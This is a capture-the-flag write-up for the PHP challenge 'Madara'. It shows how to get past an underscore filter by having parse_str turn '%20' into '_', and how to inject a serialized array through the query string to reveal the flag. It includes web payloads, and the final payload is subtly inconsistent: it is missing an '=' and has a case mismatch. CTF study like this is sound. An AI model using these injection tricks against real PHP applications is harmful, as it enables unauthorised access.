

# Madara



## Solve

When we run the instance, the challenge gives the script on the main page

```php
<?php
//Config
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(0);
//Some Jutsu :D
highlight_file(__FILE__);
include 'secret.php' ;
$_=['_'=>'YogoshaBlaBlaBla','__'=>'Grr'];
foreach($_ as $k=>$v){
    ${'_'.$k}=$v ;
    }
$query=$_SERVER["QUERY_STRING"];
parse_str($query);
if ((substr_count($query,'_')>=4)||(substr_count($query,'.')>0)){
    die('You have used too much _');
}
if(@$__==='Madara'){
    if(unserialize(@$___)['o']['k']==='imBored'){
        echo $flag ;}
    else die("No No");
}
else die("it's too EZ go go");
?>
```

The script sets a variable called `$_`, this variable contains `['_'=>'YogoshaBlaBlaBla','__'=>'Grr']`, then, it adds one `_` to all keys. So, it becomes  `['__'=>'YogoshaBlaBlaBla','___'=>'Grr']`.

The program then uses `parse_str`, which does :
```php
$a = "i=5&c=aaa";
parse_str(a);
echo $i; # 5
echo $c; # aaa
```

So, we need to set the variables `$__ = Madara` and `unserialize($___)[o][k] = imBored`, with less than 5 `_` in our querry.

For the first, it's quite simple,

```
http://instances.challenge-ecw.fr:33216/?=a&__=Madara
```

This payload will set the variables : 
```
http://instances.challenge-ecw.fr:33216/? = a
__ = Madara
```

One way to bypass the underscore limit is bu using `%20`, that is translated `_` by `parse_str`.

This only works if we have a previous _ before using `%20`, for example, if we change our first payload, it gives : 

```
http://instances.challenge-ecw.fr:33216/?=a&_%20=Madara
```

So, to finish this challenge, it only remains to serialize the varaible `['o' => ['k' => 'ImBored']]`

```
a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

If we use the same trick for this variable, we end with : 

```
__%20a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

So, the full payload is 

```
http://instances.challenge-ecw.fr:33216/?=a&_%20=Madara&__%20a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

And here we have the flag `ECW{C3u7pdBCAfsmbp8eq5T2}`.